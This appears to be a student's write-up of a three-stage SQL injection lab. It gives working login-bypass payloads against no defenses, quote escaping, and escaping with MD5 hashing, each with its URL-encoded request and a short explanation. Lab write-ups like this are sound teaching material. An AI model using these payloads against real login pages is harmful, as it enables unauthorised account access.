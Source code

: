 # SQL Injection

## No Defenses
### Solution
username : victim 

Password : x' or 'c'='c 

From URL page: username=victim&password=x%27%20or%20%27c%27%3D%27c

Why it worked: Since the effective sql query only returns true,
as the latter part of the query 'c'='c' is true when or-ed with
the rest of the query the sum total is always true.


## Simple escaping
The server escapes single quotes in the inputs by replacing them with two single quotes.

### Solution
username : victim 

Password : \'' or 5=5;-- 

From URL page : username=victim&password=%5C%27%27%20or%205%3D5%3B--%20

Why it worked: In this query we use backslash inorder to make the quotes a part of the string.
Also the next quote when read due to already having a quote before it does not get replaced by
2 single quotes. Thus the query effectively becomes true as 5=5 is true and is or-ed with the 
rest of the query.

## Escaping and hashing
The server uses the given PHP code (server.php), which escapes the username and applies the MD5
hash function to the password. (Hint: In MySQL when two binary values are compared,
such as ”\xd5S' = '\xb2” , the result is True.)

### Solution

From URL Page : username=victim&password=129581926211651571912466741651878684928

How the code works: **sqli.py**
The code uses brute force in order to find strings that when hashed have an occurance of:
1. 'or' 2.'OR' 3. '||' in it followed by a number. This will make the SQL query always true.

Execution Time:
It takes almost 2-3 hour to process the output, since 5 places are checked for.
